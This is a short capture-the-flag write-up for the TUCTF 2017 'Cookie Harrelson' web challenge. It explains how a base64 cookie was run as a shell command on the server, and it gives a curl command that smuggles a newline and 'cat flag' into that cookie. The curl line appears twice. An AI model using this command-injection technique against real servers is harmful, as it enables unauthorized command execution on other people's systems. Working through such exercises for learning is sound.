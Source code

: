 ```yaml
---
layout: post
title: "Solution to TUCTF 2017 Cookie Harrelson"
author: capitol
category: ctf
---
```

![tallahassee](/images/tallahassee_night_city.jpg)

##### name:
Cookie Harrelson

##### category:
web

##### points:
200

#### Writeup

On accessing the webpage we got this cookie: tallahassee=Y2F0IGluZGV4LnR4dA%3D%3D

Decoding that with base64 revealed that it contained the string: cat index.txt

Playing around with the cookie showed that if we changed it the string "cat index.txt#" was prepended to the supplied value and sent back.

Based on that we guessed that the server generated the webpage by executing the content of the cookie. We just needed to break out of the comment pund character and we would be able to get the flag. First we did a ls to see that the filename of the flag was flag, and then we got the flag itself.

```bash
curl 'http://cookieharrelson.tuctf.com/' -H "Cookie: tallahassee=`echo -e '\ncat flag'|base64`"
curl 'http://cookieharrelson.tuctf.com/' -H "Cookie: tallahassee=`echo -e '\ncat flag'|base64`"
```

Flag was TUCTF{D0nt_3x3cut3_Fr0m_C00k13s}